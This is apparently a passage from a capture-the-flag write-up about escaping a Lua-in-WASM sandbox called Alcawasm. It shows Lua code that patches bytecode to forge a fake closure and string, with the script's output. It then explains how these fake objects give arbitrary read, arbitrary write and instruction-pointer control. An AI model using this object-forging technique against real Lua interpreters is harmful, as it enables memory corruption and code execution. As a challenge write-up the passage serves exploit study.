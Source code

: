 ```lua
      end)(closure)
      return _ENV
    end)(closure), 1337
end)

craft_object = craft_object:gsub("(\x01\x01\x00\x01\x02\x00\x01)\x03", "%1\x04", 1)
craft_object = load(craft_object)
crafted = craft_object(fakeClosure)
print(string.format("Crafted string length is %x", #crafted))
```

> Note: as you can see, in the outer closure, I am returning the faked object by
> returning the _ENV variable. This is the first upvalue of the closure, pushed
> automatically by the interpreter for internal reasons. This way,
> I am instructing the interpreter to return **the first upvalue**
> in the upvalues array, which points to our crafted UpValue.

The output of the script confirms that our object finally has citizenship:

```
Fake str at: 0x10bd60
Fake TValue at: 0x112c48
Fake Upvals at: 0x109118
Fake Closureat : 0x109298
nil
nil
LClosure: 0x10a280
Crafted string length is 1337 <--- WE PICKED THIS LENGTH!
```

## Escape from Alcawasm

In the linked blogpost, the author describes well the "superpowers"
that exploit developers gain by being able to craft fake objects.

Among these, we have:

- Arbitrary read
- Arbitrary write
- Control over the Instruction Pointer

In this last section, I'll explain why the latter is everything we
need to complete the challenge.

To understand how, it's time to go back to the information gathering.

### (More) Information Gathering

The description of the challenge hints that, in the WASM context,
there is some kind of "win" function that cannot be invoked
directly via Lua, and that's the target of our exploit.

Inspecting the JS code that instantiates the WASM assembly
gives some more clarity on this:
